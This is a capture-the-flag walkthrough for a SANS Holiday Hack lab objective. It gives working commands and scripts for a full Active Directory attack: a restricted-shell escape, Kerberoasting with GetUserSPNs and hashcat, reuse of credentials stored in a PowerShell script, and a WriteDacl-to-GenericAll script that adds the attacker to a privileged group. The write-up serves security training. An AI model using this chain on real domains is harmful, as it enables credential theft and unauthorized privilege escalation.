Objective 8) Kerberoasting on an Open Fire
Difficulty:
Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the ElfU Portal. Find Eve Snowshoes in Santa's office for hints.
Note
When I played through this objective did not unlock until the HoHo ... No Terminal Challenge was completed.
Hints and Resources
Hints provided after helping Eve Snowshoes and completing the HoHo ... No Terminal Challenge
Kerberoast and AD Abuse Talk
Check out Chris Davis' talk and scripts on Kerberoasting and Active Directory permissions abuse.
Kerberoasting and Hashcat Syntax
Learn about Kerberoasting to leverage domain credentials to get usernames and crackable hashes for service accounts.
Hashcat Mangling Rules
OneRuleToRuleThemAll.rule is great for mangling when a password dictionary isn't enough.
Finding Domain Controllers
There will be some 10.X.X.X networks in your routing tables that may be interesting. Also, consider adding -PS22,445 to your nmap scans to "fix" default probing for unprivileged scans.
CeWL for Wordlist Creation
CeWL can generate some great wordlists from website, but it will ignore digits in terms by default.
Stored Credentials
Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!
Active Directory Interrogation
Investigating Active Directory errors is harder without Bloodhound, but there are native methods.
Other Resources
Hashcat
https://hashcat.net/hashcat/
GetUserSPNs Python script from SecureAuthCorp
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
Some of my scripts and files referenced in the guide
https://github.com/pdecamp/HHC2021-Solutions-Guide/tree/main/Objective8
Setup
For this challenge I used Hashcat and CeWL on Linux as well as the OneRuleToRuleThemAll password cracking rule file.
sudo apt install hashcat cewl
wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
Solution
Step 0: Register at the ElfU Portal and Connect
Open the ElfU Portal and register an account. Note that information entered here will not be used during the challenge, so it can be your real information. After registering you will get a username and password to use for the challenge (be sure to save these and note that all accounts are reset at midnight).
Step 1: Shell Escape
After registering, connect to the ElfU portal
ssh <username>@grades.elfu.org -p 2222
When we first connect we are presented with a captive portal where we can only view our grades and exit.
To escape this portal enter Ctrl+D, which sends the EOF character to the running script and causes it to crash. We will now be at an interactive Python prompt where we can type os.system("/bin/bash") to start a new bash shell.
Once we've done that, we can change our default shell to /bin/bash so a) we don't need to re-escape the Grades Portal if we have to log in again, and b) scp, which we will use to transfer files to and from the ElfU system will work.
Screenshot

Step 2: Investigate the Network
First, let's determine our own IP address
ifconfig
Screenshot

We could scan our entire class B network (172.17.0.2/16), but that would take quite a while so lets instead start with the smaller address space represented by 172.17.0.2/24 .
nmap 172.17.0.2/24
Screenshot

From this scan we see that some of the machines are running the netbios-ssn service on port 139, which is where SMB shares will be found. Since our objective is to locate a research document there is a good chance that it will be located on a file share somewhere.
Querying each of the systems with the command smbclient -L <ip address> we find that 172.17.0.3 is serving two promising sounding shares, 'elfu_svc_shr' and 'research_dep', but of course our account does not have access to them.
Screenshot

Step 3: Steal a Hash
The GetUserSPNs utility provided in SecureAuthCorp's impacket toolkit can be used to find Service Principle Names that are associated with user accounts. If one if found then the utility will request a service ticket for that SPN which will allow it to obtain the hash of the user account password.
First, we download GetUsersSPNs.py from the impacket GitHub repository to our local system, then transfer it to the ElfU system using scp
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py
scp -P 2222 GetUserSPNs.py nrsquaxzmg@grades.elfu.org:~/
Screenshot

Now on the ElfU system, run GetUserSPNs.py
python3 ./GetUserSPNs.py elfu.local/nrsquaxzmg:Zapvnxoth@ -outputfile hashes.kerberoast
Screenshot

We have now captured the password hash for the elfu_svc account into the file hashes.kerberoast.
Step 4: Crack the Hash
Bring the file containing the password hash for the elfu_svc account back to our local system.
scp -P 2222 nrsquaxzmg@grades.elfu.org:~/hashes.kerberoast ./
Screenshot

Use CeWL to build a wordlist from the ElfU registration portal that we will use as a base for our password cracking attempt.
cewl --with-numbers https://register.elfu.org/register > wordlist.txt
Now, crack the hash using the wordlist and the OneRuleToRuleThemAll rule file.
hashcat -m 13100 -a 0 ./hashes.kerberoast --potfile-disable -r ./OneRuleToRuleThemAll.rule --force -O wordlist.txt
Screenshot

Step 5: Investigate the elfu_svc_shr File Share
Now that we know the password for the elfu_svc account (Snow2021!), we can use it to connect to the elfu_svc_shr file share that we found earlier.
smbclient \\\\172.17.0.3\\elfu_svc_shr -U elfu_svc
Screenshot

Looking at the files we find a lot of PowerShell scripts. Retrieve them all to our local system so we can inspect them for anything interesting.
smb: \> prompt off
smb: \> mget *.ps1
Screenshot

Now we search the files for anything that might provide us with additional access. Possible things to search for would be the strings 'password' or 'username', but neither of those got any interesting results. What does get a result is the string 'elfu.local', which is found in a single PowerShell script named 'GetProcessInfo.ps1'

$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
This script contains encrypted authentication credentials for the account 'remote_elf' to run remote PowerShell commands against the computer with the IP address 10.128.1.53. While we do not know the password for the remote_elf account, we can use the same process that GetProcessInfo.ps1 uses to run commands of our own on the remote machine.
Step 6: Get Access to the research_dep Share
Start the Linux version of PowerShell with the pwsh command and execute the first three lines of the GetProcesssInfo.ps1 script. This will setup things so that from here forward we only have to enter the various Invoke-Command commands.
Screenshot

It's probably a valid assumption that the research file we are trying to access is located on the research_dep share. Access to shares is often controlled by security groups, so we use the Invoke-Command command from GetProcessInfo.ps1 with our own content for the ScriptBlock parameter to find any groups with the word 'research' in the name.
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-ADGroup -filter "Name -like '*research*'" -properties Name } -Credential $aCred -Authentication Negotiate
Screenshot

Now we know that there is a security group named 'Research Department'. Using the PowerShell scripts referenced in Chris Davis' KringleCon talk as a starting point we can create a script that will let us see any users that have WriteDacl rights to this group.
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access | Where-Object {$_.ActiveDirectoryRights -eq 'WriteDacl'}
Transfer this script to the ElfU server using scp and execute it using Invoke-Command
scp -P 2222 Who_Has_WriteDacl.ps1 cauovojfjy@grades.elfu.org:~/
Screenshot

Invoke-Command -ComputerName 10.128.1.53 -FilePath Who_Has_WriteDacl.ps1 -Credential $aCred -Authentication Negotiate
Screenshot

Conveniently for us, the remote_elf account has WriteDacl to this group.
The next steps in the process is to give our user the GenericALL AD right to the group and then to add it to the group itself. Again, referencing the sample scripts from Chris Davis' we can write a single script to perform both operations.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "cauovojfjy"
$password = "Ufjeprxjh#"
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $sid, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
Again, transfer this script to the ElfU server using scp and execute it. Then, verify that our user has been added to the Research Department group.
scp -P 2222 Grant_GenericAll_and_Add_to_Group.ps1 cauovojfjy@grades.elfu.org:~/
Invoke-Command -ComputerName 10.128.1.53 -FilePath Grant_GenericAll_and_Add_to_Group.ps1 -Credential $aCred -Authentication Negotiate
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-ADUser -identity cauovojfjy -properties MemberOf } -Credential $aCred -Authentication Negotiate
Screenshot

Step 7: Retrieve the file from the research_dep share
Now that we are in the Research Department security group, connect to the research_dep share.
smbclient \\\\172.17.0.3\\research_dep -U cauovojfjy
Once connected, we find the file SantaSecretToAWonderfulHolidaySeason.pdf, so retrieve it with smb get
Screenshot

Finally, retrieve the file to our local system using scp and open it to find the answer to the objective.
scp -P 2222 cauovojfjy@grades.elfu.org:~/SantaSecretToAWonderfulHolidaySeason.pdf ./
Screenshot

Completion
Answer
Kindness